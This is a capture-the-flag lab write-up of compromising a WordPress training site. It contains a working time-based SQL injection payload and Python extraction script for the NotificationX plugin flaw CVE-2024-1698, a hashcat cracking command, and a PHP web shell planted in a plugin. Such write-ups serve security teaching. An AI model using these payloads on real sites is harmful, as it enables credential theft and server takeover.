

On-Premise-09: NotificationX
Introduction
This report details the exploitation of a WordPress-based lab environment, On-Premise-09: NotificationX, part of the Infinity Learning labs. The objective was to identify vulnerabilities, gain unauthorized access, and ultimately retrieve the flag.
Reconnaissance
The initial phase involved examining the target webpage. Using Wappalyzer

I identified that the site is running on WordPress. This discovery prompted further enumeration using WPScan.
Initial Plugin Enumeration
I began by enumerating the installed plugins using the following command:
❯ wpscan --url https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/ --enumerate p
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __ ®
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version 3.8.28
Sponsored by Automattic - https://automattic.com/
@_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[+] URL: https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/ [173.208.132.134]
[+] Started: Wed May 20 09:38:20 2026
Interesting Finding(s):
[+] Headers
| Interesting Entries:
| - Server: nginx/1.18.0 (Ubuntu)
| - X-UA-Compatible: IE=edge
| - Content-Security-Policy: upgrade-insecure-requests
| Found By: Headers (Passive Detection)
| Confidence: 100%
[+] XML-RPC seems to be enabled: https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/xmlrpc.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
| References:
| - http://codex.wordpress.org/XML-RPC_Pingback_API
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
| - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/
[+] WordPress readme found: https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/readme.html
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
[+] Upload directory has listing enabled: https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/wp-content/uploads/
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
[+] The external WP-Cron seems to be enabled: https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/wp-cron.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 60%
| References:
| - https://www.iplocation.net/defend-wordpress-from-ddos
| - https://github.com/wpscanteam/wpscan/issues/1299
[+] WordPress version 6.6.2 identified (Insecure, released on 2024-09-10).
| Found By: Rss Generator (Passive Detection)
| - https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/index.php/feed/, <generator>https://wordpress.org/?v=6.6.2</generator>
| - https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.6.2</generator>
[+] WordPress theme in use: bloghash
| Location: https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/wp-content/themes/bloghash/
| Last Updated: 2026-02-25T00:00:00.000Z
| Readme: https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/wp-content/themes/bloghash/readme.txt
| [!] The version is out of date, the latest version is 1.0.28
| Style URL: https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/wp-content/themes/bloghash/style.css
| Style Name: BlogHash
| Style URI: https://peregrine-themes.com/bloghash
| Description: BlogHash is the perfect pick for bloggers seeking a lightweight, customizable theme that suits them ...
| Author: Peregrine themes
| Author URI: https://peregrine-themes.com/
|
| Found By: Urls In Homepage (Passive Detection)
|
| Version: 1.0.16 (80% confidence)
| Found By: Style (Passive Detection)
| - https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/wp-content/themes/bloghash/style.css, Match: 'Version: 1.0.16'
[+] Enumerating Most Popular Plugins (via Passive Methods)
[i] No plugins Found.
[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
[+] Finished: Wed May 20 09:38:30 2026
[+] Requests Done: 30
[+] Cached Requests: 5
[+] Data Sent: 12.217 KB
[+] Data Received: 134.009 KB
[+] Memory used: 271.051 MB
[+] Elapsed time: 00:00:10
The scan results provided several interesting findings:
- Server: nginx/1.18.0 (Ubuntu)
- XML-RPC: Enabled at
/xmlrpc.php - WordPress Version: 6.6.2 (Identified as insecure)
- Theme: BlogHash (Version 1.0.16)
- Upload Directory: Directory listing enabled at
/wp-content/uploads/
However, the passive plugin enumeration did not yield significant results. To gain more visibility, I performed an aggressive plugin scan:
❯ wpscan --url https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/ --enumerate p --plugins-detection aggressiveVulnerability Identification
The aggressive scan successfully identified a specific plugin and its version. Research revealed that this plugin was subject to a critical vulnerability: CVE-2024-1698, an unauthenticated SQL Injection.
The NotificationX plugin for WordPress is vulnerable to SQL Injection via the
typeparameter in all versions up to and including 2.8.2. This is due to insufficient escaping of user-supplied parameters and a lack of preparation in the existing SQL query.

Exploitation
Testing the API Endpoint
Following exploitation guides, I attempted to access the REST API. I encountered an issue where the standard /wp-json endpoint was not available. I later learned that WordPress supports two methods for REST API access:
1. Pretty Permalinks ON: /wp-json/notificationx/v1/analytics
2. Pretty Permalinks OFF: /?rest_route=/notificationx/v1/analytics
Since Pretty Permalinks were disabled, I used the second method to confirm the API's existence:
curl -s "https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/?rest_route=/notificationx/v1/analytics" \
-d "nx_id=1&type=clicks"
Time-Based SQL Injection
To verify the SQL injection, I executed a time-based payload:
time curl "https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/?rest_route=/notificationx/v1/analytics" \
-d 'nx_id=1337&type=clicks`=IF(SUBSTRING(version(),1,1)=5,SLEEP(10),null)-- -'
The server responded with a significant delay (approximately 20 seconds), confirming the vulnerability.

Automated Data Extraction
I utilized a publicly available exploit script but had to modify it due to issues with automatic length detection. I manually set the character range and added a more robust delay checker.
import requests
import string
from sys import exit
import time
delay = 10
url = "https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/?rest_route=/notificationx/v1/analytics"
admin_username = ""
admin_password_hash = ""
session = requests.Session()
def check_char(payload):
for _ in range(2):
resp = session.post(url, data={"nx_id": 1337, "type": payload})
if resp.elapsed.total_seconds() > delay:
continue
return False
return True
print("Extracting Admin Username...")
for idx_username in range(1, 20):
for ascii_val_username in (b"\x00" + string.printable.encode()):
payload = f"clicks`=IF(ASCII(SUBSTRING((select user_login from wp_users where id=1),{idx_username},1))={ascii_val_username},SLEEP({delay}),null)-- -"
if check_char(payload):
if ascii_val_username == 0:
break
admin_username += chr(ascii_val_username)
print("Admin username:", admin_username)
break
else:
break
print("Extracting Password Hash...")
for idx_password in range(1, 41):
for ascii_val_password in (b"\x00" + string.printable.encode()):
payload = f"clicks`=IF(ASCII(SUBSTRING((select user_pass from wp_users where id=1),{idx_password},1))={ascii_val_password},SLEEP({delay}),null)-- -"
if check_char(payload):
if ascii_val_password == 0:
print("Username:", admin_username)
print("Password hash:", admin_password_hash)
exit(0)
admin_password_hash += chr(ascii_val_password)
print("Admin password hash:", admin_password_hash)
breakRunning the script successfully extracted the administrator's username and password hash.


Password Cracking
The extracted hash was identified as a WordPress MD5 hash. I used Hashcat with mode 400 and the rockyou.txt wordlist to crack it.
hashcat -m 400 hash.txt /usr/share/wordlists/rockyou.txt --force
Post-Exploitation
Gaining Remote Code Execution (RCE)
With the admin credentials, I logged into the WordPress dashboard. Although direct plugin uploads failed due to connection errors, I was able to gain RCE by editing an existing plugin, Hester Core, and inserting a PHP shell:
system($_GET['cmd']);
Retrieving the Flag
I then used the cmd parameter to execute system commands. By listing the directory contents and reading the flag file, I successfully completed the challenge.


The flag was successfully retrieved, marking the completion of the lab. :)